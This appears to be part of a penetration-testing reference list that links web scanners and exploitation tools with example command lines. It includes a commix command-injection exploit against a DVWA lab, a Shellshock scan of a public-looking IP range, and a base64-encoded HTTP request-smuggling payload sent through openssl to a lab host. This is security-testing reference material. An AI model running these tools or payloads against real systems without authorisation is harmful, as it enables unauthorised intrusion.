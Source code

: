 https://github.com/sullo/nikto
<br># Nikto is an Open Source (GPL) web server scanner which performs comprehensive tests against web servers for multiple items, including over 6700 potentially dangerous files/programs, checks for outdated versions of over 1250 servers, and version specific problems on over 270 servers. It also checks for server configuration items such as the presence of multiple index files, HTTP server options, and will attempt to identify installed web servers and software. Scan items and plugins are frequently updated and can be automatically updated.
<br>```nikto -ssl -host www.example.com```

https://github.com/wpscanteam/wpscan
<br># WordPress Security Scanner
<br>```wpscan --disable-tls-checks --ignore-main-redirect --user-agent 'Mozilla' -t 10 --force --wp-content-dir wp-content --url blog.example.com```

https://github.com/droope/droopescan
<br># A plugin-based scanner that aids security researchers in identifying issues with several CMS.
<br>```droopescan scan drupal -u example.com```

https://github.com/projectdiscovery/nuclei
<br># Nuclei is used to send requests across targets based on a template leading to zero false positives and providing fast scanning on large number of hosts.
<br>```nuclei -l urls.txt -t cves/ -t files/ -o results.txt```

https://github.com/six2dez/reconftw
<br># reconFTW is a tool designed to perform automated recon on a target domain by running the best set of tools to perform enumeration and finding out vulnerabilities.
<br>```reconftw.sh -d target.com -a```

https://gobies.org
<br># The new generation of network security technology achieves rapid security emergency through the establishment of a complete asset database for the target.

https://github.com/commixproject/commix
<br># By using this tool, it is very easy to find and exploit a command injection vulnerability in a certain vulnerable parameter or HTTP header.
<br>```python commix.py --url="http://192.168.178.58/DVWA-1.0.8/vulnerabilities/exec/#" --data="ip=127.0.0.1&Submit=submit" --cookie="security=medium; PHPSESSID=nq30op434117mo7o2oe5bl7is4"```

https://github.com/MrCl0wnLab/ShellShockHunter
<br># Shellshock, also known as Bashdoor, is a family of security bugs in the Unix Bash shell, the first of which was disclosed on 24 September 2014.
<br>```python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl```

https://github.com/crashbrz/WebXmlExploiter/
<br># The WebXmlExploiter is a tool to exploit exposed by misconfiguration or path traversal web.xml files.

https://github.com/stark0de/nginxpwner
<br># Nginxpwner is a simple tool to look for common Nginx misconfigurations and vulnerabilities.

### HTTP Request Smuggling
https://github.com/defparam/smuggler
<br># An HTTP Request Smuggling / Desync testing tool written in Python 3.
<br>```python3 smuggler.py -q -u https://example.com/```
<br>
<br># Attacking through command line a HTTPS vulnerable service. Good for persistence when no one believes in you.
<br>```echo 'UE9TVCAvIEhUVFAvMS4xDQpIb3N0OiB5b3VyLWxhYi1pZC53ZWItc2VjdXJpdHktYWNhZGVteS5uZXQNCkNvbm5lY3Rpb246IGtlZXAtYWxpdmUNCkNvbnRlbnQtVHlwZTogYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkDQpDb250ZW50LUxlbmd0aDogNg0KVHJhbnNmZXItRW5jb2Rpbmc6IGNodW5rZWQNCg0KMA0KDQpH' | base64 -d | timeout 1 openssl s_client -quiet -connect your-lab-id.web-security-academy.net:443 &>/dev/null```
